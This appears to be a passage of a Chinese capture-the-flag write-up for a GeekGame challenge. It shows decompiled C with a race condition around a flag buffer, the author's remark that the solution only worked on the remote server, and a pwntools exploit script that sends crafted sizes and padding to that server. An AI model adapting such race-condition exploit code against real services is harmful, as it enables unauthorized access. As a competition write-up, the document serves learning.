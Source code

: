 ```c
  }
  return 0;
}
# do_output
undefined8 do_output(void)
{
  size_t sVar1;
  
  if (size < 5) {
    if (size < 1) {
      puts("invalid output size!!");
    }
    else {
      sVar1 = strlen(flag_buf);
      if ((int)sVar1 < 0x31) {
        usleep(usleep_time);
        puts("copying the flag...");
        memcpy(output_buf,flag_buf,(long)size);
        puts(output_buf);
      }
      else {
        puts("what happened?");
      }
    }
  }
  else {
    puts("output size is too large");
  }
  return 0;
}
# get_thread2_input
undefined8 get_thread2_input(void *param_1)
{
  puts("please enter the size to read to the buffer:");
  __isoc99_scanf(&DAT_0010208d,&size);
  if (size < 0x32) {
    memcpy(buf,param_1,(long)size);
    puts("input success!\n");
  }
  else {
    puts("the size read to the buffer is too large");
  }
  return 0;
}
```

这道题虽然是解出来了，但是我没搞明白，因为同样的解法只有在连接线上题目才有解（其实仅仅凭借手速就可以在线上直接解题，同样的技巧在本地就是无法解题）。赛后我还试了很多别的解法，包括官方解法，都不能在本地解题，我在本地环境的 wsl2 kali-linux 和 虚拟机 Ubuntu 22.04 都试过不行。

```python
from pwn import *
a = b'4'
b = b'a'*0x102
c = b'49'
p = remote('prob11.geekgame.pku.edu.cn', 10011)
print(p.recvuntil(b'Please input your token:'))
p.sendline(b'[your:token]')
print(p.recvuntil(b"please enter the size to output your flag: "))
print(f'> {a}')
p.sendline(a)
print(p.recvuntil(b"please enter the content to read to buffer (max 0x100 bytes): "))
print(f'> {b}')
p.sendline(b)
print(p.recvuntil(b'please enter the size to read to the buffer:'))
```

[2024:09:30:17:14:34]: Debug: --begin keyboard packet--